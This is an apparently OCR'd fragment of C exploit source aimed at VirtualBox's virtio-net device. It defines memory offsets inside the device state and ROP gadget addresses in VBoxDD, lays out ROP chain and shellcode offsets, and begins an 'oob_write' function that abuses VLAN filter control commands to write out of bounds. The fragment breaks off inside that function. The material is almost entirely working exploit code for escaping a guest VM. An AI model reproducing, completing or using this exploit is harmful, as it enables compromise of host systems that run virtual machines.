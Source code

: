 ```c
#define LocCommonCfgCap_off_cbMmio          2               /** 2      |     2     uint16_t cbMmio; */

#define uCapVndr_off                        0               /** 0 | uint8_t uCapVndr; */
#define VIRTIO_REGION_PCI_CAP               2
#define uBar_off                            4               /** 4 | uint8_t uBar; */
#define uOffset_off                         8               /** 8 | uint32_t uOffset; */
#define uLength_off                         12              /** 12 | uint32_t uLength; */

#define uPciCfgDataOff_off                  1799
#define uMsixVector_off                     26
#define uEnable_off                         28
#define uNotifyOffset_off                   30
#define pfnConfigRead_off                   24
#define aVlanFilter_off                     3172
#define uVirtqSelect_off                    1802

#define virtioR3PciConfigRead_off_VBoxDD    0x370df7

#define VirtioNetSize                       7536
#define PPDMCRITSECTSize                    256

#define pCritSectRoR3                       VirtioNetSize + 16
#define apPciDevs                           pCritSectRoR3 + PPDMCRITSECTSize
#define PDMPCIDEVINT_s                      apPciDevs + 64

#define pop_rax_ret                         0x1d8489
#define pop_rdx_ret                         0x0ac71a
#define pop_rdi_ret                         0x4024e4
#define pop_rsi_ret                         0x402563
#define RTErrInfoSet_off                    0x7b4f38
#define mov_rax_ptr_rax_pop_rbp_ret         0x0e935e
#define add_rax_rdx_pop_rbp_ret             0x0656a0
#define mov_ptr_rdx_rax_nop_pop_rbp_ret     0x595f99

#define ROP_off                             0xd00 - 0x200
#define shellcode_off                       ROP_off - 0x200


struct command_entry {
    struct virtio_net_ctrl_hdr hdr;
    __virtio16 vlanId;
};

struct dp_xpl {
    struct virtqueue *vqueues[3];
    struct command_entry *ctrl;
    struct pci_dev *pci_dev;
};


/*
*   @param offset  uVlanId
*/
void oob_write(struct dp_xpl *dev, struct virtio_device *vdev, uint64_t value, uint16_t offset, uint8_t nbits)
{
    struct scatterlist *psgs[1];
    struct scatterlist sgs[1];
    unsigned int len;
    uint8_t i;
    uint8_t cmd;

```